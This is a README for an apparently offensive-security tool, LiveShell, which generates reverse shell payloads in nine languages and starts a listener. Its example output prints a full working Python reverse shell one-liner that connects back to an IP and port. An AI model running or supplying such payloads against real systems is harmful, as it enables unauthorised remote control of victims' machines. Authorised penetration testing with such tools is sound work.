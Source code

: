 
# LiveShell - Interactive Reverse Shell Generator

![LiveShell Banner](https://i.pinimg.com/736x/f5/b9/f0/f5b9f0bd95f86bf95ed21e8b1abf25d7.jpg)



### LiveShell: 
Is a powerful, interactive tool designed to generate reverse shell payloads in multiple programming languages. Whether you're a penetration tester, security researcher, or ethical hacker, LiveShell simplifies the process of creating reverse shells for various platforms and architectures.

---

## Features

- **Multi-Language Support**: Generate reverse shell payloads in Python, PHP, Bash, Netcat (nc), Perl, Ruby, Go, PowerShell, and JavaScript.
- **Interactive Interface**: User-friendly menu-driven interface for easy navigation.
- **Automated Listener**: Automatically starts a listener for the reverse shell connection.
- **Colorful Output**: Beautiful, hacker-style terminal output with colors for better readability.
- **Cross-Platform**: Works on Linux, macOS, and Windows (with WSL).



## Installation

1. Clone the repository:
   ```bash
   git clone https://github.com/realworldsec/liveshell.git
   
   cd liveshell
   
   chmod +x liveshell.py
   ```
### Run the tool
```bash
./liveshell.py
```
# Usage
### 1: Run the tool:

```bash
./liveshell.py
```
### 2: Follow the prompts:

⚬Enter your IP address.

⚬Enter the port to listen on.

⚬Choose a language for the reverse shell payload.

### 3: Copy the generated payload and execute it on the target machine.

### 4: The tool will automatically start a listener. Once the payload is executed, you'll get a reverse shell connection.

## Supported Languages
  ●  Python

  ●  PHP

  ●  Bash

  ●  Netcat (nc)

  ●  Perl

  ●  Ruby

  ●  Go

  ●  PowerShell

  ●  JavaScript

## Advantages
### Fast and Efficient: 
  ▸  Generate reverse shell payloads in seconds.

### No Manual Effort: 
  ▸  Automates the process of creating and testing reverse shells.

### Beginner-Friendly: 
  ▸  Simple, interactive interface for users of all skill levels.

### Extensible: 
▸ Easily add support for new languages or features.

## Example
```
[*] Welcome to LiveShell - Interactive Reverse Shell Generator!
[*] Please provide the following details:

[+] Enter your IP address: 192.168.1.100
[+] Enter the port to listen on (e.g., 4444): 4444

[*] Available languages:
1. Python
2. PHP
3. Bash
4. Netcat (nc)
5. Perl
6. Ruby
7. Go
8. PowerShell
9. JavaScript
[+] Choose a language (1-9): 1

[+] Reverse shell code for python:

python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.100",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'

[*] Starting listener on port 4444...
```

## Author

- [@livepwn](https://www.github.com/livepwn)